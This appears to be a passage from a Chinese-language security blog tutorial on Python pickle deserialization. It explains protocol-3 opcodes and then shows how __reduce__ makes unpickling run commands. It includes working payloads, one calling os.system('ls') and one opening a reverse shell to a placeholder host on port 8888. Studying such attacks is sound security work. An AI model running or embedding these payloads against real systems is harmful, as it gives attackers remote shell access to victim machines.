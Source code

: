 ```
'\x80\x03c__main__\nStu\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00VonX\x04\x00\x00\x00dateJ\xd4;4\x01ub.'
```
可以看到,在protocol=3中,出现了很多不可见字符(出于这个原因,我们传输的时候可以将其进行base64编码),但是一些主要的操作码我们仍然可以认出来.  
**1.\x80\x03** 字符串的第一个字节是\x80,机器看到这个操作符，立刻再去字符串读取一个字节，得到x03.解释为"这是一个依据3号协议序列化的字符串"  
**2.c__main__\nStu\n** 接下来的c操作大家已经很熟悉了,就是引入__main.__.Stu压入栈中
**3.)** )这个操作表示建立一个新元组压入栈中  
**4.\x81** \x81大概的操作就是从栈中弹出一个参数和一个class，然后利用这个参数实例化class,把得到的实例压进栈.  
**5.}** 这里就是新建一个空字典进栈.  
**6.(** 新建一个标记MARK.  
**7.X\x04\x00\x00\x00name** 这里就是将一个字符串'name'进栈.  
**8.X\x03\x00\x00\x00Von** 将字符串'Von'进栈.  
**9.X\x04\x00\x00\x00date** 将字符串'date'进栈.(对比上面三个可以发现第一个x03的数字其实是插入的字符串的长度)
**10.J\xd4;4\x01** 这里是将20200404插入栈中,但至于是怎么生成这个值的,我还没弄清楚.....
**11.u** 这里的u操作就是把从MARK到u前面的元素存进一个数组['name','Von','date',20200404],再把栈恢复到MARK前的状态.此时,栈中有两个元素,一个是\_\_main\_\_.Stu对象,一个是空字典(栈顶)  
此时,会把栈顶的字典弹出(要求栈顶一定是字典),将刚刚那个数组两两一对构造一个字典{'name':'Von','date':20200404},再将这个字典压入栈中.  
**12.b** 这一步的操作就是按照栈中的字典,对创建出来的实例化对象进行属性赋值.
**13..** 结束反序列化.
# \_\_reduce\_\_(曾经的王者)
\_\_reduce\_\_这个函数有点类似于PHP中的\_\_wakeup\_\_函数.简单说来,就是如果当\_\_reduce\_\_返回值为一个元组(2到5个参数),第一个参数是可调用(callable)的对象,第二个是该对象所需的参数元组.在这种情况下,反序列化时会自动执行\_\_reduce\_\_里面的操作.  
具体可以看下面两个例子:
``` python
#pyton2
import pickle
import os
class A(object):
    def __reduce__(self):
        return (os.system,('ls',))
a = A()
test = pickle.dumps(a)
pickle.loads(test)
```
可以看到成功执行了命令:
![](/blog_img/pickle2.png)
在这里注意下Python2和Python3的写法区别,具体我不在这里讲.  
可以参考这篇文章[python深入学习(一):类与元类(metaclass)的理解
](http://www.bendawang.site/2017/03/21/python%E6%B7%B1%E5%85%A5%E5%AD%A6%E4%B9%A0-%E4%B8%80-%EF%BC%9A%E7%B1%BB%E4%B8%8E%E5%85%83%E7%B1%BB%EF%BC%88metaclass%EF%BC%89%E7%9A%84%E7%90%86%E8%A7%A3/)  

``` python
#反弹shell
import pickle
import os
class A(object):
    def __reduce__(self):
        shell = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system,(shell,))    
a=A()
result = pickle.dumps(a)
pickle.loads(result)
```
可以看到,成功反弹shell.
